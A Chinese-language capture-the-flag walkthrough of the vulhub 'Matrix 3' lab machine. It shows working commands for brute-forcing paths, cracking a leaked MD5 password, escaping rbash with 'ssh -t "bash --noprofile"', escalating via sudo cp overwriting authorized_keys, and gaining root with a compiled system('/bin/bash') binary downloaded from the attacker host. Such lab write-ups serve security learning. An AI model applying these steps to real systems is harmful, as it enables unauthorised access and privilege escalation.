

Matrix 3 - CTF
===

> vulhub, 难度中等

## 信息收集

### 主机发现


### 端口扫描


### 访问网页


打开源码, 发现有个隐藏的图片:




用 binwalk 等检测了一下, 暂时没发现信息隐藏, 访问 `/Matrix`:


## 目录爆破

是一个类似迷宫一样的小游戏, 大概就是要访问到 `/Matrix/?/?/?/?/?` 才能走出迷宫。前面如果乱选, 在第三轮就会走到死胡同, 但是如果前三轮分别选了 `n`, `e`, `o`, 后面就还要再选两轮, 结合这个作者前面的习惯, 估计前三位就是 `neo`, 接下来用 Burpsuite 的 Intruder, 方式选 Cluster Bomb, 两处 payload 从 0 遍历到 9 即可:


发现结果是 `/Matrix/n/e/o/6/4`: 访问这个界面, 有个 secret.gz, 不过解压不出来, cat 一下发现就是个文本文件, 内容是 `admin:76a2173be6393254e72ffa4d6df1030a`

后面这一串看起来很像 md5, 碰撞一下发现就是 passwd 的 md5 哈希。

> 站点: [crackstation](https://crackstation.net/), 英文语境非常好用;


## 登录 7331 端口

接下来就能登录 7331 端口了:


不过没有什么内容, 审计源代码也无果, 试试 `robots.txt` 文件:


发现了隐藏的目录 `/data/` 打开能下载这个 data 文件:

### 文件分析

`cat` 一下这个 data 文件, 应该是一个二进制文件:


进一步审计, 能发现这个文件以 "MZ" 开头(Win exe), 其中有以下可读字符串信息:

```
Matrix v3
HP Inc.
Copyright © HP Inc. 2019
FileVersion1.0.0.0
InternalNameMatrix v3.exe
OriginalFilenameMatrix v3.exe
```

用 exeinfo 看看, 显示是 `.NET` 程序, 用 `C#` 或 `VB.NET` 编写。


#### 反编译

用 dnspy 打开试试:


这里有一串非常可疑的字符串: `guest:7R1n17yN30`, 后面这一段就是做了一些字节代换的黑客帝国 (Matrix) 男女主名字;

试试删掉 Authorization 后在 7331 登录, 显示错误, 想到还有个 6464 的 openssl 服务。

## ssh 登录

登录 6464 端口的 openssl 服务即可:

```bash
sudo ssh -p 6464 guest@192.168.170.152
```


### rbash 逃逸

输入 `whoami` 发现受限了, 那么这里需要 rbash 逃逸:


> [Matrix I](https://r4x.top/2025/05/26/matrix/) 靶机中也有 rbash 逃逸, 总结了一些常用姿势;

这些暂时都无效, 这里用另一种姿势: 回退到连接 ssh 时, 用 `–t "bash --noprofile"` 这个参数来强制绕过 rbash:

- `-t`: 强制分配伪终端（PTY）,有了 TTY，bash 就会以交互式 shell 启动（相当于 `bash -i`）。
- `bash --noprofile`：绕过登录脚本，直接启动一个干净的 Bash

> 注: 如果用户 shell 已经被写死为 rbash, 或者 `authorized_keys` 强制了命令或 shell 就会无效

```bash
ssh -p 6464 -t guest@192.168.170.152 "bash --noprofile"
```

> 注意顺序不能错;


### 提权到普通用户

可以看到已经完成了逃逸, 接下来 `sudo -l`:


如何用 `cp` 命令完成提权? 

> 必须提到 `cp` 指令的特性: 在不使用特定参数的情况下, `cp` 指令仅复制文件内容, 而不保留文件所有情况', '

最容易想到的办法是生成 ssh 秘钥文件, 然后用 (trinity 身份) 的 `cp` 来将用新的秘钥文件覆盖旧的:

```bash
# 先生成并赋权
cd ~
ssh-keygen
cd .ssh
chmod 777 id_rsa.pub

# 接下来拷贝
cp id_rsa.pub /home/guest
cd ../
sudo -u trinity /bin/cp ./id_rsa.pub /home/trinity/.ssh/authorized_keys
ssh -p 6464 trinity@127.0.0.1 -i /.ssh/id_rsa 
```


完成了提权到 trinity 用户。

### 提权 ROOT

继续 `sudo -l`, 能用 ROOT 身份执行一个叫 Oracle 的文件, 不过本地没有这个文件, 这就简单了, 建一个唤起 `/bin/bash` 的二进制文件, 重命名为oracle 就行了。


最简单的 c 程序: `oracle.c`

```c
#include <stdlib.h>
void main() {
    system("/bin/bash");
}
```

写完编译的时候发现 `gcc` 是没有配置的, 那就在 kali 里编译了发过去好了:

```bash
vim oracle.c
sudo chmod 777 oracle.c
gcc -o oracle oracle.c
python -m http.server 80
```

另一边下载就行:

```bash
wget http://192.168.170.145/oracle
chmod 777 oracle
sudo /home/trinity/oracle
```


> 注意要用绝对路径;

这里又报了个错, 因为目标机上的 c 库貌似比较久了, 不能兼容 kali 上的, 需要改一下, 在 kali 上加上 `-static` 参数, 这个参数会吧所有需要的库一块编译到二进制文件里去, 这样就 "不求人" 了。

```bash
gcc -o oracle oracle.c -static
```


拿下 root, 之后就是找 flag, 轻松找到。


## 总结：

> Matrix 3 CTF

好久没完整流程的打一台靶机了, 虽然这台靶机不算难但还是问了好几次 AI 才顺利打过。主要路径:

在 7331 端口通过隐藏路径和 MD5 破解拿到 admin 凭据后，用 web 服务中发现的 `.NET` 程序反编译获得 guest 密码登录 6464 SSH（rbash）并通过 `ssh -t "bash --noprofile"` 绕过限制。

接着利用 `sudo -u trinity cp` 注入 SSH 公钥提权到普通用户 trinity，再编译并静态链接一个最小 C 程序（ `system("/bin/bash")` ）命名为 oracle，用 sudo 赋权执行获得 `root shell`。

关键点：主题联想加速爆破、rbash 逃逸、cp 默认不保留归属、静态链接解决 glibc 兼容。